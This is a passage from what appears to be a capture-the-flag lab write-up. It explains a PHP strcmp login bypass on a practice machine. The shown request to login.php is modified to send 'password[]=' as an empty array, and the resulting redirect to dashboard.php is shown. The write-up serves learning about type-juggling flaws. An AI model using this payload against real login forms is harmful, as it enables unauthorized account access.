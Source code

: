 We can see that the contents of that array is whatever we've sent. But PHP is kinda stupid, so what would happen if we sent along, just an empty array? 

Using Burp we can intercept our POST request to `login.php`. 

Here's our original request:

```
POST /login.php HTTP/1.1

Host: target
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 46
Origin: http://192.168.53.216
Connection: close
Referer: http://192.168.53.216/login.php
Cookie: PHPSESSID=u4jrbtublanh7khbhdluqhc3e3
Upgrade-Insecure-Requests: 1

email=liam%40lunar.local&password=strcmpMaDNess

```

We'll modify the POST data to the following: 

```
email=liam%40lunar.local&password[]=
```

Here, we're passing an empty array. Like in the slides from the OWASP talk, we're telling PHP that the password equals NULL. 

We send off the request and ....

![](/images/pg/pg-lunar/Pasted-image-20220810144533.png)

We get a  status code`302` redirecting us to `dashboard.php`.
